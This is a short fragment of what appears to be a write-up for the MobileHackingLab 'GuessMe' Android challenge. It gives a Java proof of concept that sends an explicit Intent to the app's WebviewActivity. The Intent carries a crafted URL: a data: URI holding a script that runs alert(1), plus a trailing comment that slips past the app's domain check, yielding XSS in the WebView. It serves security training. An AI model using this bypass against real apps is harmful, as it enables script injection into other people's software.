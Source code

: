 ![](/assets/img/mhl/GuessMe/2.png)







<br />

### Android app PoC

<br />

XSS

```java
Intent intent = new Intent();
intent.setClassName("com.mobilehackinglab.guessme", "com.mobilehackinglab.guessme.WebviewActivity");

intent.setData(Uri.parse("https://mobilehackinglab?url=data:text/html,<h1>test</h1><script>alert(1)</script><!--mobilehackinglab.com"));

intent.setAction("android.intent.action.VIEW");
startActivity(intent);
```
